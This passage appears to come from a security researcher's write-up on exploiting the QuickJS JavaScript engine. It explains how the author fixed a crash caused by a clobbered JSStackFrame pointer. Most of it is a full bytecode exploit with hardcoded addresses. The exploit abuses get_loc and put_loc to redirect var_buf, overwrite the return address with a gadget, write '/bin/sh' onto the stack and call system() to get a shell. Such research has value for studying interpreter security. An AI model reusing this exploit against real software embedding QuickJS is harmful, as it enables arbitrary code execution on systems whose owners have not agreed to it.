 I ran this step by step in the IDA debugger, and at first everything was going smoothly, with the stack layout being assembled as planned. However, when the exploit was complete, the program segfaulted before having time to hit the return instruction. I quickly realized that this was because QuickJS tries to dereference a `JSStackFrame` pointer stored right before `var_buf` in the function's stack, and this pointer gets clobbered as a side effect of resetting `var_buf`. I therefore added some code at the very end of the exploit code to fix the pointer, by setting it to the address of an empty `JSStackFrame` that is conveniently declared as a stack variable in this function. Just like resetting `var_buf` has the side effect of clobbering the stack frame pointer, writing to the stack frame pointer clobbers `var_buf`. Luckily, we don't need it anymore after that, so that side effect is not an issue for us.

```
@flt_gadget_addr f.7FFFF7C2A873
@flt_system_addr f.7FFFF7C58740
@flt_vb_offset_8 f.7FFFFFFFD738
@flt_bin_sh_addr f.7FFFFFFFDA20
@flt_bin_sh_str  f.0068732F6E69622F
@flt_sf_s_addr   f.7FFFFFFFE150

# Copy var_buf to safe location (7FFFFFFFD980) using get_loc and put_loc
get_loc 17
put_loc 37

# Offset var_buf by 8
push_const8 flt_vb_offset_8
put_loc 17

# Overwrite return address (7FFFFFFFD948) with gadget
push_const8 flt_gadget_addr
put_loc 33

# Reset var_buf
get_loc 36
# OG var_buf value is now in loc36 tag
put_loc 16

# Write "/bin/sh" to memory
push_const8 flt_bin_sh_str
put_loc 47

# Write address to stack
push_const8 flt_bin_sh_addr
put_loc 34

# Write system address
push_const8 flt_system_addr
put_loc 35

# Offset var_buf
push_const8 flt_vb_offset_8
put_loc 17

# Overwrite sf. This will clobber var_buf, so no more put_loc/get_loc after this!
push_const8 flt_sf_s_addr
put_loc 16

undefined
return
```

